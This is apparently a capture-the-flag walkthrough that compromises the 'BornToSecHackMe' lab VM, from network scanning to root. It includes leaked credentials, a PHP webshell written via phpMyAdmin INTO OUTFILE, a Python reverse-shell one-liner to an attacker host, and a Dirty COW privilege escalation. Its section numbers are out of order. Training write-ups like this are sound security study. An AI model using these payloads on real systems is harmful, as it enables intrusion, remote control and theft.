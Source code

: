 # Privilege Escalation Using Dirty COW Exploit

1. Start the Machine

	Once the machine is powered on (or started from a hypervisor), wait for the boot process to reach the GRUB menu prompt.

2. Network Reconnaissance

	Using **netdiscover**, the internal network was scanned to find live hosts and services:

	```bash
	sudo netdiscover -r <your-ip/mask>
	```

	Output:
	```
	Currently scanning: Finished!   |   Screen View: Unique Hosts

	5 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 210
	_____________________________________________________________________________
	IP            At MAC Address     Count     Len  MAC Vendor / Hostname
	-----------------------------------------------------------------------------
	<vm-ip> 08:00:27:2e:4e:0b      2      84  PCS Systemtechnik GmbH

	```

3. Using **nmap**, the internal network was scanned to find live hosts and services:

	```bash
	nmap -p- -sV 192.168.190.182
	```

	Result: Host with several open services:

	* FTP (vsftpd 2.0.8+)
	* SSH (OpenSSH 5.9p1)
	* HTTP/HTTPS (Apache 2.2.22)
	* IMAP and SSL/IMAP (Dovecot)

4. Web Enumeration and Initial Access

	Use **ffuf** to fuzz directories on the webserver:

	```bash
	ffuf -u https://<vm-ip>/FUZZ -w /usr/share/wordlists/dirb/common.txt
	```

	Result:
	* `/forum` (redirects with 301)
	* `/phpmyadmin` (redirects with 301)
	* `/webmail` (redirects with 301)

5. Forum Login and Credentials Leak

	Navigate to the vulnerable web application at:

	```
	https://<vm-ip>/forum
	```

	You can find a post titled **"Probleme login ?"** by the user **lmezard**, dated *2015-10-08 00:10*.

	Inside the forum post (or associated logs), notice a suspicious log line:

	```
	Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
	```

	This is an SSH authentication failure showing an attempted login with password.
	Using the forum's user interface, we can find the **Users** button at the top right corner of the forum page. In the Users page, we can see several users. The password from the log matches the user **lmezard**.

	In the profile or edit profile page of the user **lmezard** we can find the registered email address:

	```
	laurie@borntosec.net
	```

7. Accessing Webmail and Database Credentials

	Logged into **webmail** with lmezard's credentials and the same password as `lmezard` forum password.

	In the email titled "DB Access" we see:

	```
	Use root/Fg-'kKXBj87E:aJ$ to access databases.
	```

	We can use these credentials to login to **phpMyAdmin** at `/phpmyadmin`.

8. SQL Injection and Remote Code Execution

	In phpMyAdmin's SQL tab, we can execut:

	```sql
	SELECT "<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>" 
	INTO OUTFILE '/var/www/forum/templates_c/payload.php';
	```

	Verify Webshell access:

	```
	https://192.168.190.182/forum/templates_c/payload.php?cmd=whoami
	```

	Confirm it outputs `www-data`.

6. Getting Reverse Shell

	Checked for Python binary:

	```
	https://192.168.190.182/forum/templates_c/payload.php?cmd=which%20python
	```

	Got `/usr/bin/python`. And now we can give a reverse shell payload:

	```bash
	python -c "import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('<attacer-ip>',<port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/bash')"
	```
	> Replace <attacer-ip> and <port>

	Encoded the payload for URL and ran via the webshell. Listened on port 1234 with `nc -lvnp 1234` and got a reverse shell as `www-data`.
	To access to the reverse shell, use `nc`:

	```bash
	nc -lvnp <port>
	```

7. Local Enumeration

	Inside the shell:

	```bash
	cd /home
	ls -l
	```

	Output:
	```bash
	total 0
	drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
	drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
	drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
	drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
	dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
	drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
	drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
	```

	8. Privilege Escalation: lmezard user

	Navigate to `/home/LOOKATME` and found a `password` file:

	```
	lmezard:G!@M6f4Eatau{sF"
	```

	Switch user to lmezard:

	```bash
	su lmezard
	Password: G!@M6f4Eatau{sF"
	```

	We successfully logged in as lmezard.

9. Dirty COW Exploit to Root

	Upload and compile **dirty\_cow\.c** exploit in `/tmp` as lmezard.

	```bash
	cat > dirty_cow.c << EOF
	```
	Then paste the code.

	Compile and run:
	```bash
	gcc -pthread dirty_cow.c -o dirty -lcrypt
	./dirty <new-root-password>
	```

	The exploit patched `/etc/passwd` to set root password to `<new-root-password>`. Example:

	```
	toor:tojiVEjmA3vTY:0:0:pwned:/root:/bin/bash
	```

10. Final Root Access

	Use `su toor` with the new password set by the exploit and gain root shell.

	| User        | Password                    |
	| ----------- | --------------------------- |
	| lmezard     | G!@M6f4Eatau{sF"            |
	| root (toor) | (new password from exploit) |
